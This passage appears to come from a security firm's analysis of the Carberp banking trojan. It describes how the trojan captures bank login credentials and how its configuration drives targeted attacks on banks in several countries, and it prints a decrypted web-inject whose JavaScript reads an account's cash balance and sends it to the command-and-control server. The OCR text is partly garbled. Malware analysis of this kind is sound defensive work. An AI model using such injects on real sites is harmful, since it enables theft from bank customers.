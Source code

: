 As can be observed, main fields in the message include bot-id, login URL and the captured login credentials as well (decoded and marked in red).

- 3. The login request finally reaches the bank server and the client logs in to his/her account. By this time, his/her credentials are already in the hands of the attackers.
#### Targeted Attack

The second attack method is directed specifically aqainst a well-defined set of targets, with particular attack technique designated at each URL. The collection of targets and attack techniques is strictly defined in the Carberp configuration file. As stated, this file is downloaded from the C&C by the malware and stored encrypted on disk. We have managed to extract the configuration file, thereby unveiling targeted attacks against several banks in the US, Netherlands, Denmark, Germany and Israel.

Following is a concise example demonstrating the use of targeted attack against a sepecifc Bank. In this attack, Carberp grabs information regarding available cash in the account and sends this information to the C&C server.

![](_page_9_Picture_0.jpeg)

This is a sample section from the decrypted configuration file which was parsed according to a Trusteer proprietary formatting. It is a targeted HTML injection against the all URLs matching the pattern



```
<Action>
<URL> .#########..com/das/cqi-bin/session.cqi*</URL>
<Injections>
<Injection>
<Before>
tagline business.gif" height="25" width="275" border="0" class="inline"
alt="######## Business Online" />
</Before>
<InjectionData>
<script type="text/javascript" >
   function connect(src)
       {
      var newScript = document.createElement("script");
      newScript.type = "text/javascript";
      newScript.src =  src;
     var first = document.getElementsByTagName("head")[0].firstChild;
      document.getElementsByTagName("head")[0].insertBefore(newScript,
first);
      ﻨﺎ
    function sdata(total)
      {
      var rix = (new Date()).getTime();
connect(" two/access.php?m
ake=auth&rix="+rix+"&total="+total+"&idt=%user id%");
      }
 window.onload = function()
 【
 var total = document.getElementById("cashTotalAvailBalance");
  if (total != null)
     【
      total = total.innerHTML.replace("$","");
      total = total.replace(",","");
      sdata(total);
      }
  }
</script>
```
